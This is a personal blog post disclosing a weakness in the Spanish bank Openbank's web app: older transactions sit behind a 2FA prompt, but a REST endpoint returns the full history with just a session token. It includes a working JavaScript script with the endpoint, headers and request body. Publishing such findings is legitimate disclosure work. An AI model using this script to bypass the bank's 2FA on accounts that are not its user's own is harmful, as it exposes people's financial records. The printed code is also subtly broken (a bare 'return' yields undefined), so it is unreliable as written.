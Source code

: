 
<Head>
    <title>Openbank's useless 2FA for checking the full movements history</title>
</Head>

# Openbank's useless 2FA for checking the full movements history

> December 27 2024
<br/>
Hey, this is a brief analysis I have done over [Openbank (Spain)](https://www.openbank.es/).

\
**Openbank** has a 2FA system for certain actions in their app and webapp, this includes checking the full history of movements, even if you are already logged in.
\
Here is the [route](https://clientes.openbank.es/myprofile/accounts/0000000/movements) of the webapp where you can see movements of an account. Replace the zeros with an account id in case you want to try it.
\
By default it only displays movements up to around 3 months ago, if you want to see older movements you need to click on the **See More movements** button, which prompts the following popup (translated from Spanish):
<br/>
<div class="flex justify-center items-center">
    <img src="/openbank_2fa_popup.png" alt="Openbank useless 2fa" align="middle" />
</div>
\
The issue is that this extra security requirement is basically **useless** because there is an endpoint from their REST API that we can use to literally query all the transactions from the day the account was created.
\
I made the following script in JavaScript that uses the mentioned endpoint.
\
You can get your `<CONTRACT_ID>` by digging a bit in the app or webapp, and you can get the `<AUTH_TOKEN>` by inspecting some of the requests sent by the webapp.
<br/>

```ts
async function get() {
    let data = []
    const categories = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14];

    const contracts = ["<CONTRACT_ID>"] // You can put multiple contracts if you want
    const authToken = `<AUTH_TOKEN>`;
    await Promise.all(categories.map(async (code) => {
        const res = await fetch("https://api.openbank.es/categorized-transactions/listbycategorycontracts ", {
            "credentials": "omit",
            "headers": {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0",
                "Accept": "application/json",
                "Accept-Language": "en-US,en;q=0.5",
                "Content-Type": "application/json",
                "version": "2",
                "openBankAuthToken": authToken,
                "Sec-GPC": "1",
                "Sec-Fetch-Dest": "empty",
                "Sec-Fetch-Mode": "cors",
                "Sec-Fetch-Site": "same-site",
                "Pragma": "no-cache",
                "Cache-Control": "no-cache"
            },
            "referrer": "https:clientes.openbank.es/",
            "body": JSON.stringify({
                temporalGrouping: "Y",
                contracts,
                from: "1234-01-23", // LOL
                to: "2222-11-22",   // still far away
                categoryCode: code,
                banks: null
            }),
            "method": "POST",
            "mode": "cors"
        });
        const json = await res.json(); 
        data = [
            ...data,
            ...json
        ]
    }));

    return 
        data.map(tx => ({
            date: new Date(tx.fecha),
            title: tx.concept,
            amount: tx.monto
        }))
        .sort((a, b) => a.date - b.date).reverse();
}

const formatter = new Intl.DateTimeFormat('en-US', { day: "numeric", month: "long" });

for(const tx of await get()) {
    console.log(`${formatter.format(tx.date)}      ${tx.title}     ${tx.amount}`);
}
```
\
By running this script **I am able to see what it seems to be the whole movements history from the day I created my account.**
\
Random example of a log I can see from some years ago:
<br/>
<div class="flex justify-center items-center">
    <img src="/openbank_2fa_tx_example.png" alt="Openbank useless 2fa tx example" align="middle" />
</div>
<br/>
> Note: I used Deno to run the script but you can use other runtimes or even a browser as long as you are in the openbank website.
<br/>

But here is more to this story, the endpoint used in the script is used in another [route](https://clientes.openbank.es/myprofile/global/expenses-by-category/) of the webapp.
\
This other route allows us to see the movements up to **1 year ago with no extra steps**, though it will get angry at you if you try an older date.
<br/>
<div class="flex justify-center items-center">
    <img src="/openbank_2fa_minimum_date.png" alt="Openbank useless 2fa minimum date" align="middle" />
</div>
\
But that's the UI, because in the other hand, the **REST endpoint does not care about minimum dates or extra security requirements**.
\
Something I also noticed is that some endpoints and their parameters, are written in English and others in Spanish, perhaps a lack of coordination between teams lead to this.
\
I think this issue is kinda dumb but at the same time if you think about... they think they have a security feature, but it doesn't really secure anything, does it? What if other things are also not working as expected?
\
Btw, I already tried to contact **Openbank** multiple times privately, I never really got an answer regarding the issue, but rather all I got was "Send it to this other X email" or "Thanks for contacting us, we will answer asap!".
Last message I got was an automated response on December 2nd. It seems they can't afford to have a decent technical support.
\
Idk, perhaps I am just missing something... Time will tell I guess!
\
Anyway, you can find me in [X](https://x.com/mkenzo_8), [GitHub](https://github.com/marc2332/) or [LinkedIn](https://www.linkedin.com/in/marc-esp%C3%ADn-sanz-79575a187/).
\
Imma go watch Squid Game Season 2 now, thanks for reading!